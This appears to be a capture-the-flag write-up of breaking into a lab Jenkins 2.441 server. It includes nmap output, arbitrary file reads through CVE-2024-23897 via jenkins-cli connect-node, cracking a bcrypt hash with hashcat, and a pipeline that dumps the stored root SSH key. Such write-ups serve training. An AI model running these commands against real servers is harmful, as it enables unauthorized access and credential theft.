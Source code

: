 **TARGET:** `10.10.11.10`
**MY IP:**  `10.10.14.23`

# NMAP

```nmap-tcp
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-04 18:13 CST
Nmap scan report for 10.10.11.10
Host is up (0.0092s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# PORT 8080

Found Jenkins running over http
Jetty version 10.0.18
Jenkins version 2.441

Found a user with User ID:
`jennifer`

Found that [CVE-2024-23897](https://www.errno.fr/bruteforcing_CVE-2024-23897.html) works
This article, the [security advisory](https://www.jenkins.io/security/advisory/2024-01-24/) and [exploit](https://github.com/xaitax/CVE-2024-23897) shows that using the connect-node command allows for full file reads instead of only first 3 lines

This is because the CLI treats @xyz where xyz is a file path as "read the file" in for arguments to the command

Connect-node appears to take each line independently as a command and the error messages then print out each line leading to arbitrary file read

Doing this allowed read of the config.xml and the users/users.xml

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://10.10.11.10:8080/ connect-node @/var/jenkins_home/users/users.xml
```

Which showed that the config for jennifer user from above is stored in a folder which I then read as well:

```
 java -jar jenkins-cli.jar -noCertificateCheck -s http://10.10.11.10:8080/ connect-node @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```

This gave a hash for the user's password which hashcat and the rockyou worldlist worked for:

```
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

Hashcat:

```
hashcat '$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a' -m 3200 /usr/share/wordlists/rockyou.txt 
```

With this cracked hash, logged in as jennifer to Jenkins instance

As jennifer, able to create a new pipeline which can read any global secret including the credential stored as id: '1' aka the root SSH key

So made this pipeline based on [dumping jenkins secrets](https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials) and ran it leading to a dump of the SSH Key:

```
pipeline {
  agent any
  stages {

    stage('sshUserPrivateKey') {
      steps {
        script {
          withCredentials([
            sshUserPrivateKey(
              credentialsId: '1',
              keyFileVariable: 'keyFile',
              passphraseVariable: 'passphrase',
              usernameVariable: 'username')
          ]) {
            print 'keyFile=' + keyFile
            print 'keyFile.collect { it }=' + keyFile.collect { it }
            print 'keyFileContent=' + readFile(keyFile)
          }
        }
      }
    }

  }
}
```

